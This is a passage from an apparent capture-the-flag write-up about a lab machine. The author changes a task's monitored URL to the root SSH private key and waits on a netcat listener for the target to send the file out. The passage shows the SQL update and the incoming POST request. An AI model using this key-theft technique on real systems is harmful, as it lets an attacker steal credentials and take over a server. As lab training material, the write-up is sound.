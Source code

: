 ![webhook.png](/Assets/Pictures/Health/webhook.png)

Let’s not forget to set the listener on port 80, and also to update the table with the monitored url pointing at `/root/.ssh/id_rsa`

```bash
mysql> update tasks set monitoredUrl='file:///root/.ssh/id_rsa';
Query OK, 0 rows affected (0.00 sec)
Rows matched: 0  Changed: 0  Warnings: 0
```
{: .nolineno }

now we wait on our listener to capture the file

```bash
sudo nc -nvlp 80
Listening on 0.0.0.0 80
Connection received on 10.10.11.176 44126
POST / HTTP/1.1
Host: 10.10.16.6
Accept: */*
Content-type: application/json
Content-Length: 1828
Expect: 100-continue

```